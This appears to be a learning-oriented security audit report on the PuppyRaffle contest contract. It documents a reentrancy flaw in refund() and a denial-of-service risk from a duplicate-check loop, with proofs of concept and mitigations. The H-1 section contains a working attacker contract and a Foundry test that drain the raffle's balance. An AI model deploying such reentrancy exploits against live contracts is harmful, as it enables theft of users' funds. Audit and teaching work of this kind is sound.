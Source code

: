 ![](logo.png) 
![](./img/puppy-raffle.png)

# Security Report for the PuppyRaffle CodeHawks FirstFlight Contest **learning*

**Source:** https://github.com/Cyfrin/2023-10-Puppy-Raffle

--------------------------------------------

### [H-1] Risk of Reentrancy in `PuppyRaffle::refund()` function

#### Description:
The `PuppyRaffle::refund()` can be re-entered because it does not follow the `CEI` (Checks-Effects-Interactions) pattern. Basically, interaction(s) with an external account is made before effects(state is updated).

<details>
<summary>Code</summary>

    ```solidity
        /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
        /// @dev This function will allow there to be blank spots in the array
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            // checks 👇🏾
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // interaction 👇🏾
            payable(msg.sender).sendValue(entranceFee);

            // effects (state updates) 👇🏾
            players[playerIndex] = address(0);

            emit RaffleRefunded(playerAddress);
        }
    ```

</details>

#### Impact:
If the caller of the `PuppyRaffle::refund()` function is a contract with a `receive()` function, then the `PuppyRaffle::refund()` function can be re-entered before the state is updated.

#### Proof of Concept:

Create a `Hunter` contract 👇🏾:

<details>
<summary>Hunter</summary>

    ```solidity
        // SPDX-License-Identifier: MIT
        pragma solidity ^0.7.6;

        import {PuppyRaffle} from "./PuppyRaffle.sol";

        contract Hunter {
            PuppyRaffle puppy;
            address hunter = address(this);

            constructor(PuppyRaffle _puppy) {
                puppy = _puppy;
            }

            function poach() public payable {
                require(msg.value == puppy.entranceFee());

                // create a dynamic array, and push the Hunter's address
                address[] memory players = new address[](1);
                players[0] = hunter; // address(this) is the address of this contract, which is the Hunter contract

                // enter raffle
                puppy.enterRaffle{value: msg.value}(players);

                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                // refund hunter
                puppy.refund(hunterIndex);
            }

            receive() external payable {
                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                if (address(puppy).balance >= 1e18) {
                    puppy.refund(hunterIndex);
                }
            }
        }

    ```

</details>

Modify `PuppyRaffleTest.t.sol` test contract 👇🏾:
  
<details>
<summary>PuppyRaffleTest</summary>

````diff
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;
    pragma experimental ABIEncoderV2;

    import {Test, console} from "forge-std/Test.sol";
    import {PuppyRaffle} from "../src/PuppyRaffle.sol";
+   import {Hunter} from "../src/Hunter.sol";

    contract PuppyRaffleTest is Test {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee = 1e18;
        address playerOne = address(1);
        address playerTwo = address(2);
        address playerThree = address(3);
        address playerFour = address(4);
        address feeAddress = address(99);
        uint256 duration = 1 days;

+       Hunter hunter;

        function setUp() public {
            puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
+           hunter = new Hunter(puppyRaffle);
        }
    }
````
</details>

Add the following test 👇🏾:

<details>
<summary>Code</summary>

    ```solidity
        function testHunterReentrancyAttackSuccessful() public {
            address[] memory players = new address[](5);
            players[0] = playerOne;
            players[1] = playerTwo;
            players[2] = playerThree;
            players[3] = playerFour;
            players[4] = address(hunter);
            puppyRaffle.enterRaffle{value: entranceFee * 5}(players);

            console.log(address(puppyRaffle).balance);
            assert(address(puppyRaffle).balance == 5e18);

            // attack logic
            uint256 hunterIndex = puppyRaffle.getActivePlayerIndex(address(hunter));
            // hunter attacks
            vm.prank(address(hunter));
            puppyRaffle.refund(hunterIndex);

            // assert PuppyRaffle's contract has been drained
            assert(address(puppyRaffle).balance == 0);
            // assert Hunter's balance has increased more than expected
            assert(address(hunter).balance == 5e18);
        }
    ```

</details>

#### Tools Used:

- Foundry
- Slither
- Manual Review
- Remix
- Chat GPT

#### Recommended Mitigation:

Re-arrange the `PuppyRaffle:refund()` fund to follow `CEI` pattern:

<details>
<summary>Code</summary>

    ```solidity
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // Update state before sending Ether
            players[playerIndex] = address(0);

            // Now transfer the refund
            payable(msg.sender).sendValue(entranceFee);

            emit RaffleRefunded(playerAddress);
        }
    ```

</details>

Also the `nonReentrant` modifier from [OpenZeppelin `ReentrancyGuard`](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) could be used.

-----------------------------------------------------------------

### [M-1] Possible DoS attack due to loop through `players` array to check for duplicates in `PuppyRaffle::enterRaffle()` function, thus significant increase in gas costs for future entrants

#### Description:       
The `PuppyRaffle::enterRaffle()` conducts a duplicate address check whenever a new address wants to join the raffle, by looping through the `players` array. This method means that gas costs for performing that transaction (entering the raffle) are significantly cheaper for players who enter at the start of the raffle, and significantly costlier for players who enter the raffle at later stages. Every new player, is an extra `address` the `PuppyRaffle::enterRaffle()` function has to loop through when conducting duplicate address check.

<details>
<summary>Code</summary>

    ```solidity
    // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        } // @question could there be gas issues that could lead to a DOS attack because of this for loop?
    ```

</details>

#### Impact:
The gas costs for entering the raffle increases distrubingly as more players enter the raffle. This could cause a rush from players wanting to be one of the first in queue, as well as discourage prospective future players.   
An attacker could make the `PuppyRaffle::entrants`array so large that no other player is able to enter, thus guaranteeing themselves the win.

#### Proof of Concept:
If there are two sets of players, each set being 500 players large, below is the estimated gas costs:
- First 500 players: ~110091567 gas
- Next 500 players: ~405906812 gas
  
  That is a nearly 4x increase in gas costs for the next 500 players.

  <details>
  <summary>PoC</summary>
  Place the following test into the `PuppyRaffleTest.t.sol` test contract
    
    ```solidity
        function testDOS() public {
            // address[] memory players = new address[](1);
            // players[0] = playerOne;
            // puppyRaffle.enterRaffle{value: entranceFee}(players);
            // assertEq(puppyRaffle.players(0), playerOne);

            vm.txGasPrice(1); // set gas price to 1
            // Let's enter 500 players
            uint256 totalPlayers = 500;
            address[] memory players = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                players[a] = address(a);
            }

            // gas calculations
            uint256 gasStart = gasleft();

            // enter raffle
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);

            // gas calculations
            uint256 gasEnd = gasleft();
            uint256 gasUsedForFirstFiveHundred = (gasStart - gasEnd) * tx.gasprice;
            console.log("The gas cost for the first 500 players is: ", gasUsedForFirstFiveHundred);

            // Let's enter extra 500 players
            // @note the higher the number of extra players you want to add, the more gas this test uses, and at a certain number(say 1000), the enterRaffle() function for the next set of players will fail with a out-of-gas error
            address[] memory playersExtra = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                playersExtra[a] = address(a + totalPlayers);
                // @note -- the use of address(a + totalPlayers) is so that addresses start from 500+1 (501)
            }
            // gas calculations
            uint256 gasStartExtraPlayers = gasleft();

            // enter raffle for the extra 500 players
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(playersExtra);

            // gas calculations
            uint256 gasEndExtraPlayers = gasleft();
            uint256 gasUsedForNextFiveHundred = (gasStartExtraPlayers - gasEndExtraPlayers) * tx.gasprice;
            console.log("The gas cost for the extra 500 players is: ", gasUsedForNextFiveHundred);

            assert(gasUsedForFirstFiveHundred < gasUsedForNextFiveHundred);
        }
    ```

  </details>

#### Tools Used:
- Manual Review
- Foundry

#### Recommended Mitigation:
 Here are a few recommended mitigations:

- Consider using a `mapping` to check for duplicates. This will allow for constant time look up of whether a user has already entered the raffle.
- Consider allowing duplicate addresses. Especially since users can make new wallet addressess regardles, so a duplicate check doesn't prevent the same peron from entering multiple times, omly the same wallet address.
- Alternatively, [OpenZeppelin's `EnumerableSet` Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) could be used.
